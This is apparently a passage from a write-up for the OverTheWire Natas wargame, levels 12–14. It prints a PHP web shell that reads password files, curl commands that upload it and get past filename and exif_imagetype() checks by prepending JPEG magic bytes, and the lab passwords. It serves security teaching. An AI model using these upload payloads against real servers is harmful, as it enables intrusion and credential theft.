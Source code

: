```php
<?php
    print passthru("cat /etc/natas\_webpass/natas13");
?>
```
We created a file that runs a `php` code. It executes `cat` on the password file and prints it. But when we upload it from the website, the extension of the file being created is `.jpg`. Looking at the sourcecode again, we can see that line inside the upload form:
```php
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
```
This line prevents our file from being `.php`, all files being uploaded will end with `.jpg` because of that value. We need another way to upload the file.

```bash
curl -X POST -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB natas12.natas.labs.overthewire.org/index.php -F "filename=file.php" -F "uploadedfile=@file.php"
```
We use `curl` in order to upload the file, this way we control `"filename"` and not the website form. We use `-X POST` to set the request as `POST` and `-F` flag is used to replicate a form input value, `@` before the file name attaches that file to the request. In the response from the server, we see this line:
```html
The file <a href="upload/w0wsxduq4q.php">upload/w0wsxduq4q.php</a> has been uploaded
```
So the file successfully uploaded to the server with the `.php` extension as we wanted. When we visit the path `upload/w0wsxduq4q.php` the malicious code inside the file is executed and the password is printed.

Password: `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`

## Level 13 → 14
Similar to the last level, we need to upload an image to the website. This time it says: ` For security reasons, we now only accept image files!`, and looking at the sourcecode we can see that it is done by using `exif_imagetype()`. This function is a built-in `PHP` function that checks the header of it's input file and returns if it is an image file (and what type) or not.
```php
<?php
    print passthru("cat /etc/natas\_webpass/natas14");
?>
```
We create the file `file.php` similar to the previous level, but this file's header is not an image type. We need to create a new file to trick `exif_imagetype()`.

### File Signature
A `file signature` (AKA `magic numbers`) is a sequence of 2-bytes in the beginning of file, the header. It is used to identify the file type, so the systems knows how to handle them and also extra guarantee that the file is actually the type it is declared. For example, `zip` files start with the sequence `'\x50\x4B\x03\x04'` and `JPEG` files start with `'\xFF\xD8\xFF\xE0'`. For more magic numbers, visit [list of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures).

```bash
(echo -ne '\xFF\xD8\xFF\xE0'; cat file.php) > image.php
curl -X POST -u natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC natas13.natas.labs.overthewire.org/index.php -F"filename=image.php" -F "uploadedfile=@image.php"
```
By using this command we first put the `magic number` of a `JPEG` file inside our new file, and then put the rest of the malicious `PHP` code from `file.php` inside. `exif_imagetype()` checks for the file's signature, so by putting the signature of `JPEG` files we can trick it. Then we send our `POST` request, similar to previous level, and get this in the response:
```html
The file <a href="upload/al6r6jmwih.php">upload/al6r6jmwih.php</a> has been uploaded
```
And by checking the `/upload/al6r6jmwih.php` path we find the next password.
